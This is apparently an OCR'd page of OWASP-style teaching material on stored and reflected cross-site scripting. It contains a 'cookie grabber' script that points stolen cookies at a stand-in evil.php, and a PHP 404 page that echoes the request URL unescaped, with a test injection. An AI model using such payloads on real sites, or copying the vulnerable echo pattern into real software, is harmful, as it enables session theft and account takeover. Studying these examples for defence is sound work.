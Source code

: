 - As in Example 2, the application stores dangerous data in a database or other trusted data store. The dangerous data is subsequently read back into the application and included in dynamic content. Stored XSS exploits occur when an attacker injects dangerous content into a data store that is later read and included in dynamic content. From an attackerâ€™s perspective, the optimal place to inject malicious content is in an area that is displayed to either many users or particularly interesting users. Interesting users typically have elevated privileges in the application or interact with sensitive data that is valuable to the attacker. If one of these users executes malicious content, the attacker may be able to perform privileged operations on behalf of the user or gain access to sensitive data belonging to the user.
- A source outside the application stores dangerous data in a database or other data store, and the dangerous data is subsequently read back into the application as trusted data and included in dynamic content.

### Attack Examples

**Example 1: Cookie Grabber**

If the application doesnâ€™t validate the input data, the attacker can easily steal a cookie from an authenticated user. All the attacker has to do is to place the following code in any posted input(ie: message boards, private messages, user profiles):

```html
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

The above code will pass an escaped content of the cookie (according to RFC content must be escaped before sending it via HTTP protocol with GET method) to the evil.php script in â€œcakemonsterâ€ variable. The attacker then checks the results of their evil.php script (a cookie grabber script will usually write the cookie to a file) and use it.

### Error Page Example

Letâ€™s assume that we have an error page, which is handling requests for a non existing pages, a classic 404 error page. We may use the code below as an example to inform user about what specific page is missing:

```html
<html>
<body>
<?php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
```

Letâ€™s see how it works:Â `http://testsite.test/file_which_not_exist`Â In response we get:Â `Not found: /file_which_not_exist`

Now we will try to force the error page to include our code:Â `http://testsite.test/<script>alert("TEST");</script>`Â The result is:Â `Not found: / (but with JavaScript code <script>alert("TEST");</script>)`
